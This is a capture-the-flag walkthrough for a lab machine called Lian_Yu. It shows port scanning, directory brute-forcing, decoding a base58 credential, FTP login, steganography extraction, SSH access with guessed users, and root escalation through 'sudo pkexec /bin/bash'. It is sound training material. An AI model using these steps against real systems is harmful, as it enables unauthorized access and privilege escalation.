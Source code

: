 # Lian_yu

## 1. Port Scanning & Enumeration
### 1.1 Port Scanning
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.185.218
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 04:00 EDT
Nmap scan report for 10.10.185.218
Host is up (0.19s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34042/udp   status
|   100024  1          40662/tcp   status
|   100024  1          41729/tcp6  status
|_  100024  1          46517/udp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.45 seconds

```

No `ftp` anon login. That's good. Nothing out of ordinary.

### 1.2 Web Enumeration
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.185.218 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
/***a**               (Status: 301) [Size: 236] [--> http://10.10.185.218/***a**/]
```

Interesting. Looking at the source code, we get:

`<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> *****a**e</style></h2>
`

It also hints at 'find a way'. This means more enumeration :D

```                          
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.185.218/***a** -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q

/21**                 (Status: 301) [Size: 241] [--> http://10.10.185.218/***a**/21**]
```

Looking at the source code again, we get:

`<!-- you can avail your .ticket here but how?   -->
`

Time for another round of web enumeration!

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.185.218/***a**/21** -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ticket -q
/g****_*****.ticket   (Status: 200) [Size: 71]

```

Ey, viola!

```
This is just a token to get into Queen's Gambit(Ship)


RTy8yh******
```

### 1.3 Decoding

Using [CyberChef](http://icyberchef.com/), I hoped to get some thing, but to no avail. It only says base64, but prints some garbage if we use it.

Having some previous blockchain experience, I remember that BTC usernames and something something uses base58. Trying that out, we get:

`!#th3****`

Using the `*****a**e` and the `!#th3****` as creds to ftp, we get in!

### 1.4 FTP

```
┌──(kali㉿kali)-[/tmp]
└─$ ftp 10.10.185.218
Connected to 10.10.185.218.
220 (vsFTPd 3.0.2)
Name (10.10.185.218:kali): *****a**e
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
ftp> get Leave_me_alone.png
...
ftp> get Queen's_Gambit.png
...
ftp> get aa.jpg
... 
```

### 1.5 File Exploration

```       
┌──(kali㉿kali)-[/tmp]
└─$ file Leave_me_alone.png 
Leave_me_alone.png: data
```

```
┌──(kali㉿kali)-[/tmp]
└─$ steghide --extract --stegofile aa.jpg
Enter passphrase: 
wrote extracted data to "ss.zip".
```

Trying empty string did not work, but password as password did. Quite common, plus, I'd like to dodge as many stego challenges :D

Anyways, going in, we have two files

```
┌──(kali㉿kali)-[/tmp]
└─$ cat passwd.txt
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, ****** learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
```

We get a username

```
┌──(kali㉿kali)-[/tmp]
└─$ cat shado     
*********
```

... did not work on the user we saw.

Tracing our steps back, we may have missed something important ... `ls -la` is always preferred over `ls`. I took note!

Here's the interesting file we missed:

```
-rw-r--r--    1 0        0            2483 May 01  2020 .other_user
```

Looking in it, we get a whole bunch of other users, and we just try them one by one :D

PS: You could use Hydra, but I feel that equal work.

## 2. Foothold

```
┌──(kali㉿kali)-[~]
└─$ ssh ****e@10.10.185.218
****e@10.10.185.218's password: 
                              Way To SSH...
                          Loading.........Done.. 
                   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

****e@LianYu:~$ 
```

Get the user flag. Easy. Nothing else too interesting. Except ... the sudo permissions.

## 3. PrivEsc

Looking it up on [gtfobins](https://gtfobins.github.io/) we get `sudo pkexec /bin/bash` as the command to run. Ez

And ...

```
****e@LianYu:~$ sudo /usr/bin/pkexec /bin/bash
root@LianYu:~# cat /root/root.txt
                          Mission accomplished
...
```

We are done!
